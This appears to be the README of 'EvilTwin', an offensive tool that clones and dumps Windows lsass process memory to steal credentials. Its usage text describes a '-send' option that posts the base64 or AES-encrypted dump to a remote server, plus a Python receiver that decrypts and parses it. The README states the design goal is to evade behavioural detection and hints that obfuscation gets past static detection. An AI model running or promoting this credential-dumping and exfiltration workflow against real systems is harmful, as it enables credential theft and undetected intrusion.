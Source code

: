 # EvilTwin
```
EvilTwin.exe -h

run without any args: clones and dumps lsass and saves it to current dir

-send            a url to send base64 encoded lsass dmp to

-send-encrypted  sends lsass to the url above but AES encrypted not just b64 encoded
```

EvilTwin is a tool inspired by:
  - Guilherme Carneiro's post on cloning and encrypting lsass: https://www.linkedin.com/feed/update/urn:li:activity:7117555527538073600/
  - Safety Dump: https://github.com/riskydissonance/SafetyDump (not just inspired, MiniDumpWriteDump callbacks are stolen from here XD)

the idea is to get around detection mechanisms by cloning lsass's memory address space to the current with the legacy api NtCreateProcessEx and dump the current process memory
that contains the cloned lsass

## API Calls ##

- all api calls (except MiniDumpWriteDump) happens through syscalls
- MiniDumpWriteDump is dynamically imported from a mapped version of (dbgcore.dll), BUT NtReadVirtualMemory() is still visible
  - *NtReadVirtualMemory is the underlying call of MiniDumpWriteDump*
  - we dump our own process, that shouldn't be a problem
 
## options ##

EvilTwin supports 3 options

- running without any arguments, will dump and encrypt lsass and write encrypted lsass to the current directory
- running with `-send http://server.com/` will dump, base64 encode and send lsass to said server, use `python3 EvilTwinParser.py receive` to recieve and parse lsass on the fly
- running with `-send-encrypted http://server.com/` will dump and encrypt lsass and send it to said server, use `python3 EvilTwinParser.py save` to recieve and save lsass

- *AES Encryption happens with randomly generated KEY and IV everytime, they are printed on the screen if encryption is used (don't clear the screen so fast)*

## AES decryption and parsing ## 

EvilTwinParser.py supports multiple ways of receiving the resulting dump mentioned above, also the script AES decrypts an encrypted dmp as follows
- `python3 EvilTwinParser.py decrypt -file <lsass.dmp> -key <AES_KEY> -iv <AES_IV>`

```
usage: EvilTwinParser.py [-h] [-key KEY] [-iv IV] [-file FILE] {receive,decrypt,save}

positional arguments:
  {receive,decrypt,save}
                        receive b64 lsass and parse it OR decrypt/decode and parse an AES encrypted dmp OR just save the AES encrypted dmp to disk

options:
  -h, --help            show this help message and exit
  -key KEY              use only with (decrypt) argument
  -iv IV                use only with (decrypt) argument
  -file FILE            use only with (decrypt) argument
```


## Note ##

- when compiled out of the box it has static detection of SafetyDump (obviously), but no behavioural detection (the goal)
  - simple obfuscation was enough to get it behind everything but that is left as an exercise for the reader (for an obvious reason XD)  
